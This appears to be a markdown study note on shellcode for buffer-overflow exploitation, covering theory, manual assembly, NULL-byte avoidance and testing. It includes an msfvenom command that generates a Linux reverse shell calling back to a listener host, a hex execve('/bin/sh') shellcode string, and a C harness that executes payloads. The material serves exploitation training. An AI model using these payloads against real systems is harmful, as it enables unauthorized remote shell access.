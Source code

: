 # shellcode

## theory and definitions

Shellcode is the traditional name for the assembly opcodes that are used during exploitation of a buffer overflow vulnerablity, resulting in a shell on the target. The assembly opcodes are what the CPU sees and understands during execution. We have a one to one mapping between assembly instructions and opcodes, everything comes back down to assembly and integers. Fundamentally, if we want the CPU to do something then an opcode must exist to communicate the task to the CPU. 

From an execution flow perspective, the `rip` register contains an address that points to the next opcode to execute. If we can store custom opcode somewhere inside a binary, then if we ever get control over the contents of `rip` register we can execute arbitrary assembly instructions. 


## creating shellcode

> these processes are more art than science, be prepared to be patient do some debugging. Strive to first get a minimal proof of concept

### manual methods

To manually create shell code, the operative must do the following

1. write desired functionality in assembly
2. create an object file with `nasm` or another assembler
3. disassemble with `objdump -D -M intel` to display the opcodes
4. extract the opcode strings from the text-glob output with tools such as `grep`, `sed`, `cut`, and `awk`
5. prepare the resulting hexadecimal string to be compliant with whatever syntax is used for the delivery method. Whether that is is `C-lang` or `python` or otherwise. 
6. Test the payload locally with an appropriate harness, see later on this page


#### cleaning shellcode, avoiding NULLs and bad chars

1. clean registers before use
	1. `xor rdx, rdx`
2. some instructions introduce nulls, such as `mov`. avoid them
	1. accomplish same task with multiple instructions. These instructions do not introduce NULLs:
		1. `add rdx, 0x01`
		2. `sub rdx, 0x01`
		3. `inc rdx`
		4. `dec rdx`
3. if you must use `mov` instruction, use minimal register size apporiate for size of integer
	1. `mov dl, 0x01 ; 1 byte into a 1 byte register`
4. use `rip` relative addressing and store data earlier in the text section to force an offset without NULLs. This is a result of the offset being expressed as a signed integer, a negative number, something like `0xfffffffffffffffc`

The `rip` relative addressing technique is best demonstrated through example. Consider the following assembly. Pay attention to the offset when assesing the output of `objdump -D -M intel`. The offset presents itself in the resulting opcode, this is why an offset such as `0x0000000000000002` introduces NULL bytes. 

```as
global _start

section .text

_start:

	jmp code
	hello_world: db 'hello world', 0x0a

code:
	
	mov al, 1
	xor rdi, rdi
	add rdi, 1
	lea rsi, [rel hello_world]
	xor rdx, rdx
	add rdx, 12
	syscall

	xor rax, rax
	add rax, 60
	xor rdi, rdi
	syscall
	
```

### tool assisted methods

The `msfvenom` utility of the Metasploit framework can be used to create all sorts of payloads, including shellcode. Example shown is for creating a reverse shell for a 64 bit linux target.

```bash
msfvenom -a x64 -p linux/x64/shell_reverse_tcp -b "\x00" -f c LHOST=10.10.10.10 LPORT=8000
```

Notes on the above command

- the `-b` flag allows us to declare "bad chars". Other bad chars include `"\xff"` , `"\x0a"`, and more depending on context of the vulnerabilty and the target. can be delcared enmasse via `-b "\xff\x00\x0a"`
- It is not necessary to use the other tools in metasploit framework to catch the resulting connection, any socket listner will work.


## harness for testing shellcode

The following is shellcode to achieve: `execve( "/bin/sh", {"/bin/sh", NULL}, NULL )`

```c
"\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05"
```


```c
#include <stdio.h>
#include <string.h>

int main()
{
	unsigned char code[] = ""; // payload goes here after sed/regex or msfvenom
	
	printf(" shell length: %d\n", (int)strlen(code) );
	int (*ret) () = (int(*) ()) code;
	ret();
}
```

